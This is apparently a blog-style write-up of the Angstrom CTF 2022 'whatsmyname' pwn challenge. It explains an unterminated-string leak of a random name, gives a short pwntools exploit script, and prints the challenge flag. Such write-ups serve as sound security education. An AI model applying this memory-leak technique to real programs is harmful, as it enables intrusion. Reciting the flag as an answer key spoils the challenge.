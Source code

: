 ```yaml
---
title: "[Pwn] whatsmyname [Angstrom CTF 2022]"
date: 2022-05-06 23:37:00
---
```


# 0x0 Introduction

Can you guess my name?

nc challs.actf.co 31223

whatsmyname whatsmyname.c

Author: JoshDaBosh

files: [whatsmyname](whatsmyname), [whatsmyname.c](whatsmyname.c)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


# 0x2 Vulnerability

The program basically wanna us to enter 48 bytes `guess`, program will generate 48 bytes `myname` from `/dev/urandom`. if `guess` and `myname` is same, program will print out the flag.

it is not possible to guess it right. However, we can use null-terminated string bug to leak `myname`. Then we can enter the same name to get the flag.

# 0x3 Exploit

```
io = start()

# for buffering stuff
input("A")
io.sendafter(b"name? ",b"A"*45+b"END")
print(io.recvuntil(b'END'))
name = io.recvuntil(b"!\nGuess",drop=True)
print(name,len(name))
# for buffering stuff
input("A")
io.sendlineafter(b"flag!\n",name+b'\x00')
io.interactive()
```

# 0x4 Flag

actf{i_c0uld_be_l0nely_with_y0u_a21f8611c74b}